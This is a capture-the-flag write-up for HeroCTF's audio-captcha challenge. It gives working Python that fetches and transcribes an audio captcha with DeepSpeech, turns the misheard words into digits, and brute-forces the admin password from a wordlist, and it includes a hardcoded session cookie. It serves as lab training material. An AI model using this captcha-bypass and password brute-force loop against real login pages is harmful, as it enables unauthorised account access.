




## Rerecaptcha_v2

```
This time I've stepped up, they'll never be able to hack me !
Author: yarienkiva
Format: Hero{}
```

<u>Programming language :</u> Python 🐍

This time the captcha authentication uses an audio. Then, as the same as the first challenge we have to get a local version of it. The only difference is that in order to be able to know the format of the captcha we need to use the 'file' command to have the information.



After getting this information I can use ffmep to do the conversion. Then, we can reuse the first part of the last challenge.

```python
url = "http://chall3.heroctf.fr:8082/login"
	cookie = dict(session="XXXXXXX")

r = requests.get(url, cookies=cookie)

img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

with open("CaptchaAudio.adts", "wb") as f:
	f.write(base64.b64decode(unquote(img_b64.group(1))))
	
os.system("ffmpeg -i CaptchaAudio.adts CaptchaAudio.wav -y 2>/dev/null")
```


For this challenge the second step will be different, we obviously can't use OCR tools. So, I found a python speech recognition tool made by mozilla on github : https://github.com/mozilla/DeepSpeech/. Using it locally gives us the information that it was outputting numbers with approximative words. 



Thus we faced 2 problems :

-  Find a way to integrate the tool our script.
- Changing text to number.


For the first I have past all the script into a function to be able to import it as a package into my script and call the function at each loop.

```python
import speech

s = speech.mySuperDeepSpeech("deepspeech-0.9.3-models.pbmm", "CaptchaAudio.wav")
```


For the second problem I could make a comparison dictionary, but in order to save some times I decided to simply use replace function.

```python
s = s.replace("zero", "0")
s = s.replace("one", "1")
s = s.replace("two", "2")
s = s.replace("three", "3")
s = s.replace("four", "4")
s = s.replace("five", "5")
s = s.replace("six", "6")
s = s.replace("seven", "7")
s = s.replace("eight", "8")
s = s.replace("nine", "9")
        
s = s.replace(" ", "")
```

The above replacement convert clean output, but we should handle all the options, thus after some test I drawn up more association and I found out that zero was the most missed numbers. So, I decided to change all the other words, in zero to increase winning situation.

```python
s = s.replace("to", "2")
s = s.replace("full", "4")
s = s.replace("for", "4")
s = s.replace("fur", "4")
s = s.replace("sicks", "6")
s = s.replace("sick", "6")
s = s.replace("si", "6")
s = s.replace("eghte", "8")
s = s.replace("pait", "8")
s = s.replace("pate", "8")
s = s.replace("ate", "8")
s = s.replace("at", "8")
s = s.replace("aght", "8")
s = s.replace("nine", "9")

s = re.sub('[a-z]+', '0', s)
```


After converting audio to text we just have to send it back to the server.

```python
payload = {'username': 'admin', 'password': XXXXXXX, 'pincode': resultat}
r2 = requests.post(url, payload, cookies=cookie)

if re.search("Invalid login or password", str(r2.content)):
	print('Mauvais PASSWORD - '+str(nb_passwd))
elif re.search("Invalid pincode", str(r2.content)):
	pass
else:
	print('PASSWORD IS : '+z)
```


Like in the first challenge I put all the code into 3 things :

1. A for loop to use all the password into the wordlist.
2. A while loop to keep using the same password until "Invalid pincode" appear
3. A try ... catch ... to instant reset the code each time Tesseract failed the conversion


The final code.

```python
import base64
import re
from urllib.parse import unquote
import requests
from pynput.mouse import Controller, Button
import os
import speech

with open('wordlist.txt', 'r') as file:
    passwords = file.read().split()

nb_passwd = 0
finish = False

f = open("flag.txt", "w")

for z in passwords:
    nb_passwd+=1
    while 1:
        try:
        
####################################### Captcha Recuperation #######################################
        
            url = "http://chall3.heroctf.fr:8082/login"
            cookie = dict(session="4f6915a7-d8fa-44a6-8769-985ee12a7d80.Cn7ZzahkGH6ZOIs2qlOJyTkxbnY")

            r = requests.get(url, cookies=cookie)

            img_b64 = re.search(r"base64,((\w{1,}|%{1,}){1,})", str(r.content))

            with open("CaptchaAudio.adts", "wb") as f:
                f.write(base64.b64decode(unquote(img_b64.group(1))))

            os.system("ffmpeg -i CaptchaAudio.adts CaptchaAudio.wav -y 2>/dev/null")
            
###################################### Converting the Audio #########################################
            
            s = speech.mySuperDeepSpeech("deepspeech-0.9.3-models.pbmm", "CaptchaAudio.wav")

            print("\n")
            print(s)
            
            s = s.replace("zero", "0")
            s = s.replace("one", "1")
            s = s.replace("to", "2")
            s = s.replace("two", "2")
            s = s.replace("three", "3")
            s = s.replace("full", "4")
            s = s.replace("four", "4")
            s = s.replace("for", "4")
            s = s.replace("fur", "4")
            s = s.replace("five", "5")
            s = s.replace("sicks", "6")
            s = s.replace("sick", "6")
            s = s.replace("six", "6")
            s = s.replace("si", "6")
            s = s.replace("seven", "7")
            s = s.replace("eghte", "8")
            s = s.replace("eight", "8")
            s = s.replace("pait", "8")
            s = s.replace("pate", "8")
            s = s.replace("ate", "8")
            s = s.replace("at", "8")
            s = s.replace("aght", "8")
            s = s.replace("nine", "9")
            
            s = s.replace(" ", "")
            s = re.sub('[a-z]+', '0', s)
            
            print(s)
            print("\n")
            
########################################## Sending payload ##########################################
            
            payload = {'username': 'admin', 'password': z, 'pincode': s}
            r2 = requests.post(url, payload, cookies=cookie)

            if re.search("Invalid login or password", str(r2.content)):
                print('Mauvais PASSWORD - '+str(nb_passwd))
                break
            elif re.search("Invalid pincode", str(r2.content)):
                pass
            else:
                print('PASSWORD IS : '+z)
                finish = True
        except:
            pass
    if finish == True:
        break
```


It took about 20 minutes to test 208 passwords for an average time of 5.76 seconds per password.



